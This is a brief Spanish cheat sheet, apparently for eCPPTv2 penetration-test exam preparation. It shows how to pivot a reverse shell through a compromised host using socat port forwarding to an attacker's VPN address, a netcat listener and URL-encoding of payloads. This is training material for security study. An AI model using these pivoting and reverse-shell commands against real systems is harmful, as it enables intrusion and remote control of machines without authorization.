 # eCPPTv2

Binario de socat linux funcional:
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat

USO de socat:
socat TCP-LISTEN:1111,fork TCP:10.10.14.14:2222 & 

1111 -> puerto que ponemos en escucha al socat para redirigir el puerto 
10.10.14.14 -> cambiar a nuestra ip de vpn

es decir me pongo en esucha con netcat por el puerto 2222:
nc -lvnp 2222

y en el payload donde se envía la reverse shell ponemos la IP donde no tenemos acceso directamente pero la maquina comprometida si, y el puerto ponemos el 1111, para redirigirlo al nuestro

Si el payload tiene & se urlencodea a %26 para que no de problemas


socat para ver output:
socat TCP-LISTEN:7777 stdout
